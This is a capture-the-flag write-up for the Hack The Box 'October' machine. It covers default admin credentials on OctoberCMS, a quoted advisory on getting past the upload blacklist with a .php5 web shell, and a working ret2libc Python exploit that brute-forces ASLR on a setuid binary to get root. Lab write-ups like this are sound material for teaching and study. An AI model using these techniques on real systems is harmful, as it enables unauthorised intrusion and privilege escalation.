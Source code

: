 ![](./logo.png)

# USER

Web based port open, however it seems to be throttling gobuster.

Looking at command vulns I can find a `/backend` path. This gives us a login

Trying the classic `admin:admin` gives us a login

With so research on `exploit-db` I found:

```
1. PHP upload protection bypass
-------------------------------

Authenticated user with permission to upload and manage media contents can
upload various files on the server. Application prevents the user from
uploading PHP code by checking the file extension. It uses black-list based
approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
Definitions.php:blockedExtensions().

==================== source start ========================
106 <?php
107 protected function blockedExtensions()
108 {
109         return [
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }
====================  source end  ========================

We can easily bypass file upload restriction on those systems by using an
alternative extension, e.g if we upload sh.php5 on the server:
```

Uploading a shell with `.php5` gives us upload ability

Clicking the `public url` link runs our shell. This provides us with a shell!

Navigating to `/home/harry` gives us the `user.txt`

# ROOT

The systems contains a sticky binary called `ovrflw`.

```
/usr/local/bin/ovrflw
```

The name is a big hint of what is required.

`checksec` shows that the binary has NX enabled; therefore no shellcode.

```
[*] '/root/GitHub/HackTheBox/October/ovrflw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

This means we're going to have to construct a `libc` exploit. Using the `pattern create/offset` tool within peda 
we can see that the offset is set at 112.

The first step is to gather the addresses for `libc`, `libc@system` and `bin/sh` within `libc`.

### `libc`
```
$ ldd ovrflw

    linux-gate.so.1 (0xf7f20000)
    libc.so.6 => /lib32/libc.so.6 (0xf7d21000)
    /lib/ld-linux.so.2 (0xf7f21000)
```

### `system`
```
$ readelf -s /lib32/libc.so.6 | grep system

   257: 0012a2c0   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   658: 0003e9e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1525: 0003e9e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

### `/bin/sh`
```
$ strings -a -t x /lib32/libc.so.6 | grep "/bin/sh"
 17eaaa /bin/sh
```

Putting these values together gives us an exploit. However, on the target machine ALSR is active meaning the position of `libc` changes every execution.

Due to machine being 32-bit based, only 3 bytes in the address vary

e.g.

```
0xf7d21000
0xf7d11000
0xf7d9f000
0xf7d1b000

0xf7XXX000
```

This is easily brute forceable with only 512 potential options.

Bringing all these aspects together gives us this exploit script:

```python
import os
import sys
import struct
from subprocess import call

BUFFER_SIZE = 112

junk = b"\x41" * BUFFER_SIZE

### Platform Dependent Vars ###
libc    = 0xf7dbf000
sys_off = 0x03e9e0
bin_off = 0x17eaaa
###############################

# Attempts to brute force ALSR.
for i in range(512):

    # Addresses
    sys_ptr = struct.pack("<I", libc + sys_off)
    bin_ptr = struct.pack("<I", libc + bin_off)
    exit_ptr = struct.pack("<I", libc + sys_off)

    payload = b""
    payload += junk
    payload += sys_ptr
    payload += exit_ptr
    payload += bin_ptr

    ret = call(["/usr/local/bin/ovrflw", payload])
```

Running this on the system gives us a `root` shell!